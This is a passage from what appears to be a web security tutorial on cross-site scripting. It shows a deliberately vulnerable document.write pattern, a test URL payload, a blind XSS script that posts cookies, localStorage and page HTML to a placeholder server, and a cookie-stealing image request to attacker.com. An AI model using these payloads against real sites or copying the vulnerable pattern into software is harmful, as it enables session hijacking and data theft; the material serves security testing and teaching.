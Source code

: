 **Example vulnerable code:**

```javascript
// Vulnerable code
var pos = document.URL.indexOf("name=") + 5;
var name = document.URL.substring(pos);
document.write("Welcome, " + name + "!");
```

**Test payload:**
```
https://example.com/page.html?name=<script>alert(document.cookie)</script>
```

### 6. Blind XSS Detection

Blind XSS vulnerabilities only trigger in environments you can't directly observe, such as admin panels. Testing requires:

1. Use payloads that call back to your server
2. Monitor for incoming connections

**Example blind XSS payload:**
```html
<script src="https://your-server.com/xss.js"></script>
```

With xss.js containing:
```javascript
fetch('https://your-server.com/collector', {
  method: 'POST',
  body: JSON.stringify({
    cookies: document.cookie,
    location: document.location.href,
    localStorage: JSON.stringify(localStorage),
    DOM: document.documentElement.outerHTML
  })
});
```

## Exploiting XSS Vulnerabilities

Once identified, XSS vulnerabilities can be exploited in various ways. Here are detailed exploitation techniques:

### 1. Session Hijacking

The most common XSS attack goal is stealing user session information:

```javascript
// Steal cookies
var img = new Image();
img.src = "https://attacker.com/collect?cookie=" + encodeURIComponent(document.cookie);
```

**Note:** Modern applications often set the `HttpOnly` flag on cookies, preventing JavaScript access.
